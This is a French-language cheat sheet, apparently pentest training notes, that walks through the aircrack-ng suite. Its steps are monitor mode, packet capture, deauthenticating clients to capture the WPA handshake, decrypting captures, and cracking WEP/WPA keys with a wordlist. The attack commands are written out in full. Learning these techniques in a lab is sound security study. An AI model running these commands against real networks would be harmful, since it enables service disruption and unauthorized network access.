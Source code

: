 

|**Tool**|**Description**|
|---|---|
|`Airmon-ng`|Airmon-ng can enable and disable monitor mode on wireless interfaces.|
|`Airodump-ng`|Airodump-ng can capture raw 802.11 frames.|
|`Airgraph-ng`|Airgraph-ng can be used to create graphs of wireless networks using the CSV files generated by Airodump-ng.|
|`Aireplay-ng`|Aireplay-ng can generate wireless traffic.|
|`Airdecap-ng`|Airdecap-ng can decrypt WEP, WPA PSK, or WPA2 PSK capture files.|
|`Aircrack-ng`|Aircrack-ng can crack WEP and WPA/WPA2 networks that use pre-shared keys or PMKID.|


[[#1. Passer en mode monitor]]
[[#2. Capturer les paquets]]
[[#3. Illustrer les interactions entre clients et AP]]
[[#4. Tester l'injection de paquet]]
[[#5. Désauthentifier les clients]]
[[#6. Déchiffrer le fichier de capture]]
[[#7. Cracker la clé]]


# 1. Passer en mode monitor


```shell-session
sudo airmon-ng start wlan0
```

Possible de préciser un channel.

```shell-session
sudo airmon-ng start wlan0 1
```

```shell-session
iwconfig
```

Stopper le mode monitor

```shell-session
sudo airmon-ng stop wlan0mon
```

```
sudo ifconfig wlan0 up
```

```shell-session
iwconfig
```

En cas d'interférences

> [!Warning]
> A faire uniquement en cas de difficultés

```shell-session
sudo airmon-ng check
```

```shell-session
sudo airmon-ng check kill
```




# 2. Capturer les paquets


Une fois le monitor mode activé, possible de capturer les paquets avec airodump

```shell-session
sudo airodump-ng wlan0mon --manufacturer
```

Possible de restreindre la capture à un channel

```shell-session
sudo airodump-ng -c 11 wlan0mon --manufacturer
```

ou plusieurs channels

```shell-session
sudo airodump-ng -c 11,1,6 wlan0mon --manufacturer
```


Scanner sur une fréquence spécifique (par défaut sur 2.4Ghz)

band a -> 5 Ghz
band b -> 2.4 Ghz
band g -> 2.4 Ghz

```shell-session
sudo airodump-ng wlan0mon --band a --manufacturer
```

Possible de combiner les fréquences

```
sudo airodump-ng wlan0mon --band abg --manufacturer
```

Sauvegarder l'output

```
sudo airodump-ng wlan0mon --band abg -w file --manufacturer
```



# 3. Illustrer les interactions entre clients et AP

### Clients connectés aux AP (CAPR)

Possible de passer le .csv au format png pour avoir une représentation graphique des clients connectés aux AP.

```
sudo airgraph-ng -i HTB-01.csv -g CAPR -o HTB_CAPR.png
```


### Clients qui tentent de se connecter aux AP (Common Probe)

Possible de passer le .csv au format png pour avoir une représentation graphique des clients qui tentent de se connecter aux AP.

```
sudo airgraph-ng -i HTB-01.csv -g CPG -o HTB_CPG.png
```



# 4. Tester l'injection de paquet

Stopper mode monitor

```
sudo airmon-ng stop wlan0mon
```

lancer en mode monitor sur le channel du BSSID

```
sudo airmon-ng start wlan0 1
```

tester l'injection de paquet.

```shell-session
sudo aireplay-ng --test wlan0mon
```


# 5. Désauthentifier les clients

> [!TIP]
> A faire en parallèle de la capture
> Permet de capturer le 4 way handshake lors de la reauth

Lancer la capture sur le bssid et channel cible avec fichier de sortie

```shell-session
sudo airodump-ng wlan0mon -w handshake -c 1 --bssid <BSSID>
```

déconnecter un client (10 deauth) EN PARALLELE

```shell-session
sudo aireplay-ng --deauth 10 -a <BSSID_AP> -c <MAC_client> wlan0mon
```

ou déconnecter tous les clients (10 deauth) EN PARALLELE

```shell-session
sudo aireplay-ng --deauth 10 -a <BSSID_AP> wlan0mon
```

Constater la reconnexion des clients (Voir l'augmentation des Lost packets et nombre de Frames) et capturer le 4way handshake au format cap. (WPA/WPA2)


Possible de capturer uniquement les IVs dans le cas d'une clé WEP

```shell-session
sudo airodump-ng wlan0mon --ivs -w capture.ivs
```


# 6. Déchiffrer le fichier de capture

> [!important]
> Dechiffre le fichier dans un fichier file-dec.cap

Enlever le header du fichier .pcap (pour les captures non chiffrées)

```usage
sudo airdecap-ng -b <bssid> <capture-file>
```

Possible de déchiffrer une capture WEP avec la clé

```shell-session
sudo airdecap-ng -w "<clé_WEP>" <capture-file>
```

Possible de déchiffrer une capture WPA/WPA2 avec la clé

```usage
sudo airdecap-ng -p <passphrase> <capture-file> -e <essid>
```


# 7. Cracker la clé

[[3. Password Cracking Techniques]]

Benchmark CPU.

```
aircrack-ng -S
```

### WEP

```shell-session
aircrack-ng -K capture.ivs
```


### WPA / WPA2

Fonctionne uniquement avec wordlist

```shell-session
aircrack-ng handshake.cap -w /usr/share/wordlists/rockyou.txt
```













